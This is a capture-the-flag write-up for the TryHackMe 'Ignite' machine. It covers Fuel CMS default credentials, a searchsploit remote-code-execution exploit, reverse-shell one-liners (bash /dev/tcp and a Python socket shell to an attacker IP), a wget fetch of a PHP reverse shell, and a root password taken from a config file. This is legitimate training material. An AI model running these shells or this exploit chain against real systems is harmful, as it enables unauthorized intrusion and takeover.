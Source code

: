 # TryHackMe - Ignite

[Room link](https://tryhackme.com/room/ignite)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:E2:A6:89:F5:5D (Unknown)
```

---

### HTTP 80

Let's move on the website on port 80. We can wee on the default page the CMS Fuel.

Let's rum a dirb scan :

```bash
$ dirb http://<target_IP>
[...]
==> DIRECTORY: http://10.10.85.16/assets/
+ http://10.10.85.16/home (CODE:200|SIZE:16593)                              
+ http://10.10.85.16/index (CODE:200|SIZE:16593)                             
+ http://10.10.85.16/index.php (CODE:200|SIZE:16593)                         
+ http://10.10.85.16/lost+found (CODE:400|SIZE:1134)                         
+ http://10.10.85.16/offline (CODE:200|SIZE:70)                              
+ http://10.10.85.16/robots.txt (CODE:200|SIZE:30)                           
+ http://10.10.85.16/server-status (CODE:403|SIZE:299)                       
                                                                             
---- Entering directory: http://10.10.85.16/assets/ ----
                                                                              + http://10.10.85.16/assets/@ (CODE:400|SIZE:1134)                           
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/cache/
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/css/                                                      
```

We can see a robots.txt available. If you go to check it in, you will see an another available directory on this website called /fuel/.

Now, we have an authentication form. Let's check the default credentials of the CMS.

The default credentials are : admin/admin. Try to test it.

That works ! We are connect as admin user.



---

## Exploitation

From the administration interface of the CMS, i meet some troubles for change anything.. 

In the same time, I checked if an exploit for Fuel CMS 1.4 exists. I found this follow :

```bash
$ searchsploit fuel cms
[...]
$ searchsploit -m 47138


I just delete the proxy variable and delete the proxy argument in the requests.get.

```bash
#       proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)
```

Run this exploit with the "id" remote command. 

```bash
$ python 47138.py
[...]
cmd:id
[...]
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">
[...]
```

We can try to send a command to set up a reverse shell. Don't forget to set a nc listener ( example : $ nc -lnvp 4444).

``̀`bash
cmd:"bash -c 'exec bash -i &>/dev/tcp/<my_ip>/<listener_port> <&1'"
`

That does not works. So let's try to set up a webserver on local and execute a wget command from the target to my machine for get a php reverse shell file.

```bash
# Local (we need to have our reverse shell file on the current directory)
$ python3 -m http.server 80
```

Take this follow commands to get the reverse shell file from target to our webserver.

```bash
cmd:wget http://<your_ip>/<reverse_shell_file>
```

Then, we can execute the file on the browser with this url : http://<target_ip>/<php-reverse-shell>

We can upgrade our reverse shell to a pseudo operationnel TTY :

```bash
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$  
``` 
 
---  
  
## User flag

The user flag is in /home/www-data/flag.txt

---

## Root flag

On the first reverse shell :
  
```bash  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<listner_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```  
  
On the second reverse shell
  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
```
  
There is an interesting things, the user's root password in this file /var/www/html/fuel/application/config/database.php
  
```bash
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```
  
Now, we can connect as root user and find the final flag on /root/root.txt
